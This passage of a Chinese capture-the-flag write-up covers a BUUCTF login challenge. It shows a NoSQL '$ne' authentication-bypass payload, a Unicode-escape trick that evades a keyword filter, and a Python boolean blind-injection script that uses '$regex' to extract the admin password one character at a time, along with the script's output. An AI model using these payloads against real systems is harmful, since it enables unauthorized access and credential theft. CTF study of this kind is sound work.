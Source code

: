 ```json
{"username":{"$ne":1},"password": {"$ne":1}}
```

![img](https://p4.ssl.qhimg.com/t0167a324ad8e1efe9c.png)

被检测了，使用 Unicode 编码成功绕过：

![img](https://p5.ssl.qhimg.com/t019e055116fc80d61b.png)

应该是通过 Nosql 盲注，让我们把 admin 的密码爆出来，根据以下条件进行布尔盲注：

```json
{"msg":"登录了，但没完全登录"}    // 真
{"msg":"登录失败"}    // 假
```

如下编写盲注脚本：

```python
import requests
import string

password = ''
url = 'http://node4.buuoj.cn:27409/login.php'

while True:
    for c in string.printable:
        if c not in ['*', '+', '.', '?', '|', '#', '&', '$']:

            # When the method is GET
            get_payload = '?username=admin&password[$regex]=^%s' % (password + c)
            # When the method is POST
            post_payload = {
                "username": "admin",
                "password[$regex]": '^' + password + c
            }
            # When the method is POST with JSON
            json_payload = """{"username":"admin", "password":{"\\u0024\\u0072\\u0065\\u0067\\u0065\\u0078":"^%s"}}""" % (password + c)
            headers = {'Content-Type': 'application/json'}
            r = requests.post(url=url, headers=headers, data=json_payload)    # 简单发送 json

            #r = requests.post(url=url, data=post_payload)
            if '但没完全登录' in r.content.decode():
                print("[+] %s" % (password + c))
                password += c

# 输出:
# [+] 4
# [+] 42
# [+] 422
# [+] 4227
# [+] 42276
# [+] 422766
# ......
# [+] 42276606202db06ad1f29ab6b4a1
# [+] 42276606202db06ad1f29ab6b4a13
# [+] 42276606202db06ad1f29ab6b4a130
# [+] 42276606202db06ad1f29ab6b4a1307
# [+] 42276606202db06ad1f29ab6b4a1307f
```

得到 admin 密码后即可成功登录 admin。